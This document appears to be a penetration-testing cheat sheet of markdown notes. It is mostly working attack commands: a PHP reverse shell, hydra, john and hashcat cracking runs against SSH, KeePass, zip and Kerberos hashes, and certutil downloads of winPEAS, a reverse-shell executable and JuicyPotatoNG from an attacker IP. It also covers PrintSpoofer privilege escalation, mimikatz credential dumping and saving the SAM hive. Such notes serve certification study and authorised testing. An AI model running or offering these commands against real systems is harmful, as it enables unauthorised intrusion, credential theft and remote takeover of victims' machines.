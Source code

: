 ### PHP
[Reverse shell php](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
```
<?php
$sock = fsockopen("127.0.0.1",1234);
$proc = proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock), $pipes);
?>
```

## Password
### hydra
```
hydra -vV -l offsec -P /usr/share/wordlists/rockyou.txt ssh://<victim>:22
```
### john
```
ssh2john id_ecdsa > id_ecdsa.john
john --wordlist=/usr/share/wordlists/rockyou.txt id_ecdsa.john
keepass2john Database.kdbx
john --wordlist=/usr/share/wordlists/rockyou.txt keepass.txt
zip2john sitebackup.zip > site.hashes
john --wordlist=/usr/share/wordlists/rockyou.txt site.hashes
```
### hashcat
```
hashcat --help | grep -i "Kerberos" (to check correct mode)
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

## Windows
### Enumeration
```
certutil -urlcache -f http://<attacker IP>:80/winpeas.bat C:\Windows\temp\winpeas.bat
. winPEAS.bat
whoami /all
systeminfo | findstr /B /C:"Host Name" /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Hotfix(s)"
. mimikatz.exe -> Privilege::debug -> sekurlsa::logonpasswords (Must be admin)
icacls
schtasks /query /v /fo LIST | Select-Object -First 40
SET in cmd.exe to see environment
```
### SE Impersonate Privilege
[Printspoofer](https://github.com/itm4n/PrintSpoofer):
```
. C:\Windows\temp\PrintSpoofer64.exe -i -c cmd
```
JuicyPotatoNG:
```
certutil -urlcache -f http://IP:80/JuicyPotatoNG.exe C:\Windows\temp\JuicyPotatoNG.exe
certutil -urlcache -f http://IP:80/reverse.exe C:\Windows\temp\reverse.exe
Create a bat file with content: C:\Windows\temp\reverse.exe
certutil -urlcache -f http://IP:80/rev.bat C:\Windows\temp\rev.bat
C:\Windows\temp\JuicyPotatoNG.exe -t * -p C:\Windows\temp\rev.bat
```
### Credential hunt
1. Registry information
```
reg save hklm\sam sam
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
```